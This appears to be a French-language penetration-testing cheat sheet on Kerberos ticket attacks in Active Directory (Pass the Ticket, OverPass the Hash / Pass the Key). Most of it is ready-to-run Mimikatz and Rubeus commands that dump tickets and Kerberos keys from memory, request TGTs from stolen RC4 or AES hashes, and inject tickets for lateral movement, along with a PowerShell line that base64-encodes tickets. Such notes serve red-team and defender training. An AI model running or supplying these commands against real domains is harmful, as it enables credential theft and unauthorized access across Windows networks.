 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Principe

Voler / extraire un ticket kerberos et le réutiliser

- s'il s'agit d'un TGT, on pourra demander de nouveaux TGS
- s'il s'agit d'un TGS, on pourra l'utiliser pour communiquer avec le service cible.

Pour collecter les tickets Kerberos, on utilisera soit mimikatz, soit rubeus localement.

## Collecter des tickets Kerberos

### Mimikatz

```
# crée un fichier .kirbi par ticket exporté
mimikatz.exe privilege::debug "sekurlsa::tickets /export"
```

### Rubeus

```
# Affiche dans la console la encodée en base 64 des tickets kirbi
Rubeus.exe dump /nowrap
```

## Utiliser des tickets

### Mimikatz

```
mimikatz.exe privilege::debug "kerberos::ptt ticket.kirbi"
```

## Créer ses propres tickets

Cette technique s'appelle **OverPass the Hash** ou **Pass The Key**

Prérequis : disposer d'un Hash de mot de passe (RC4_HMAC, AES256_CTS_HMAC_SHA1, etc.)

### Extraire les clé Kerberos

```
# récupération des clés AES256_HMAC et RC4_HMA
mimikatz.exe privilege::debug "sekurlsa::ekeys"
```

### Pass the Key (OverPass the Hash)

Permet de demander un TGT à partir d'un hash

#### Mimikatz

Nécessite d'être administrateur local

```
# crée un processus cmd.exe ayant en mémoire le TGT de MYUSER 
mimikatz.exe privilege::debug "sekurlsa::pth /domain:domain.local /user:MYUSER /ntlm:<THE_HASH>"
```

#### Rubeus

Ne nécessite pas d'être administrateur local :)

```
# affiche la version encodée en b64 du kirbi
Rubeus.exe  asktgt /domain:domain.local /user:MYUSER /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass The Ticket

Utiliser les tickets pour réaliser des mouvements latéraux.

### Rubeus

```
# Sans ticket préalable : 
# réalise à la fois le PassTheKey et le Pass The Ticket
Rubeus.exe asktgt /domain:domain.local /user:MYUSER /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt

# Importation depuis un ticket.kirbi
Rubeus.exe ptt /ticket:ticket.kirbi

# PTT depuis un ticket encodé en base 64 (récupéré de rubeus OPtH ou encodé à la main)
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

### Mimikatz

```
mimikatz.exe privilege::debug "kerberos::ptt ticket.kirbi"
```

### Encoder manuellement un kirbi en base 64

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("ticket.kirbi"))
```

## Resources

Présentation parlant de PTT et de Golden Tickets (par Benjamin DELPY)

<https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it>
